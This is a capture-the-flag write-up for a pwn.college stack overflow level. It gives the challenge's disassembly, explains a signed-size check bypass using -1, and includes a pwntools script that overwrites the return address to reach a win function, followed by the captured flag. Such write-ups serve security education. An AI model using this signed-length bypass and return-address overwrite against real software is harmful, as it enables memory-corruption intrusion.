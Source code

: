 # level4.1
## Description
Overflow a buffer and smash the stack to obtain the flag, but this time bypass a check designed to prevent you from doing so!
## Solution
- The challenge file's name is `babymem-level-4-1`. Running `objdump -d -M intel babymem-level-4-1` inside `/challenge` and looking at the `challenge` function:
```
000000000040180b <challenge>:
  40180b:       f3 0f 1e fa             endbr64
  40180f:       55                      push   rbp
  401810:       48 89 e5                mov    rbp,rsp
  401813:       48 83 ec 70             sub    rsp,0x70
  401817:       89 7d ac                mov    DWORD PTR [rbp-0x54],edi
  40181a:       48 89 75 a0             mov    QWORD PTR [rbp-0x60],rsi
  40181e:       48 89 55 98             mov    QWORD PTR [rbp-0x68],rdx
  401822:       48 c7 45 c0 00 00 00    mov    QWORD PTR [rbp-0x40],0x0
  401829:       00 
  40182a:       48 c7 45 c8 00 00 00    mov    QWORD PTR [rbp-0x38],0x0
  401831:       00 
  401832:       48 c7 45 d0 00 00 00    mov    QWORD PTR [rbp-0x30],0x0
  401839:       00 
  40183a:       48 c7 45 d8 00 00 00    mov    QWORD PTR [rbp-0x28],0x0
  401841:       00 
  401842:       48 c7 45 e0 00 00 00    mov    QWORD PTR [rbp-0x20],0x0
  401849:       00 
  40184a:       c7 45 e8 00 00 00 00    mov    DWORD PTR [rbp-0x18],0x0
  401851:       66 c7 45 ec 00 00       mov    WORD PTR [rbp-0x14],0x0
  401857:       48 8d 45 c0             lea    rax,[rbp-0x40]
  40185b:       48 89 45 f8             mov    QWORD PTR [rbp-0x8],rax
  40185f:       c7 45 bc 00 00 00 00    mov    DWORD PTR [rbp-0x44],0x0
  401866:       48 8d 3d 9f 08 00 00    lea    rdi,[rip+0x89f]        # 40210c <_IO_stdin_used+0x10c>
  40186d:       b8 00 00 00 00          mov    eax,0x0
  401872:       e8 b9 f8 ff ff          call   401130 <printf@plt>
  401877:       48 8d 45 bc             lea    rax,[rbp-0x44]
  40187b:       48 89 c6                mov    rsi,rax
  40187e:       48 8d 3d 96 08 00 00    lea    rdi,[rip+0x896]        # 40211b <_IO_stdin_used+0x11b>
  401885:       b8 00 00 00 00          mov    eax,0x0
  40188a:       e8 f1 f8 ff ff          call   401180 <__isoc99_scanf@plt>
  40188f:       8b 45 bc                mov    eax,DWORD PTR [rbp-0x44]
  401892:       83 f8 2e                cmp    eax,0x2e
  401895:       7e 16                   jle    4018ad <challenge+0xa2>
  401897:       48 8d 3d 80 08 00 00    lea    rdi,[rip+0x880]        # 40211e <_IO_stdin_used+0x11e>
  40189e:       e8 6d f8 ff ff          call   401110 <puts@plt>
  4018a3:       bf 01 00 00 00          mov    edi,0x1
  4018a8:       e8 e3 f8 ff ff          call   401190 <exit@plt>
  4018ad:       8b 45 bc                mov    eax,DWORD PTR [rbp-0x44]
  4018b0:       89 c6                   mov    esi,eax
  4018b2:       48 8d 3d 87 08 00 00    lea    rdi,[rip+0x887]        # 402140 <_IO_stdin_used+0x140>
  4018b9:       b8 00 00 00 00          mov    eax,0x0
  4018be:       e8 6d f8 ff ff          call   401130 <printf@plt>
  4018c3:       8b 45 bc                mov    eax,DWORD PTR [rbp-0x44]
  4018c6:       89 c2                   mov    edx,eax
  4018c8:       48 8b 45 f8             mov    rax,QWORD PTR [rbp-0x8]
  4018cc:       48 89 c6                mov    rsi,rax
  4018cf:       bf 00 00 00 00          mov    edi,0x0
  4018d4:       e8 77 f8 ff ff          call   401150 <read@plt>
  4018d9:       89 45 f4                mov    DWORD PTR [rbp-0xc],eax
  4018dc:       83 7d f4 00             cmp    DWORD PTR [rbp-0xc],0x0
  4018e0:       79 2c                   jns    40190e <challenge+0x103>
  4018e2:       e8 19 f8 ff ff          call   401100 <__errno_location@plt>
  4018e7:       8b 00                   mov    eax,DWORD PTR [rax]
  4018e9:       89 c7                   mov    edi,eax
  4018eb:       e8 b0 f8 ff ff          call   4011a0 <strerror@plt>
  4018f0:       48 89 c6                mov    rsi,rax
  4018f3:       48 8d 3d 6e 08 00 00    lea    rdi,[rip+0x86e]        # 402168 <_IO_stdin_used+0x168>
  4018fa:       b8 00 00 00 00          mov    eax,0x0
  4018ff:       e8 2c f8 ff ff          call   401130 <printf@plt>
  401904:       bf 01 00 00 00          mov    edi,0x1
  401909:       e8 82 f8 ff ff          call   401190 <exit@plt>
  40190e:       48 8d 3d 77 08 00 00    lea    rdi,[rip+0x877]        # 40218c <_IO_stdin_used+0x18c>
  401915:       e8 f6 f7 ff ff          call   401110 <puts@plt>
  40191a:       b8 00 00 00 00          mov    eax,0x0
  40191f:       c9                      leave
  401920:       c3                      ret
```
- We see that the buffer starts from [rbp-0x40]. This means that there are 64 bytes between the buffer and the saved base pointer.
- Similar to [level4.0](./level4.0.md), passing a payload of 80 bytes (where the last 8 bytes are the address of the win function) will overwrite the return address with the address of the win function and get the flag.
- From the disassembly, I noted that the win function is at `0x0000000000401704`.
- We need to keep in mind to pass the number of payload bytes as `-1` to bypass the check at these lines:
```
  40188a:       e8 f1 f8 ff ff          call   401180 <__isoc99_scanf@plt>
  40188f:       8b 45 bc                mov    eax,DWORD PTR [rbp-0x44]
  401892:       83 f8 2e                cmp    eax,0x2e
  401895:       7e 16                   jle    4018ad <challenge+0xa2>
  401897:       48 8d 3d 80 08 00 00    lea    rdi,[rip+0x880]        # 40211e <_IO_stdin_used+0x11e>
```
- I wrote a python script to generate the payload:
```python
import pwn

padding = b'A' * 72
payload = padding + pwn.p64(0x0000000000401704)

r = pwn.process('/challenge/babymem-level-4-1')
r.recvuntil('size:')
r.sendline('-1')

r.recvuntil('bytes)!')
r.send(payload)
print(r.readall())
```
- Running the script will give us the flag: `pwn.college{MVKwM5nqbldQrYIwSmke3QUYZlG.0lN5IDL5QTO0czW}`.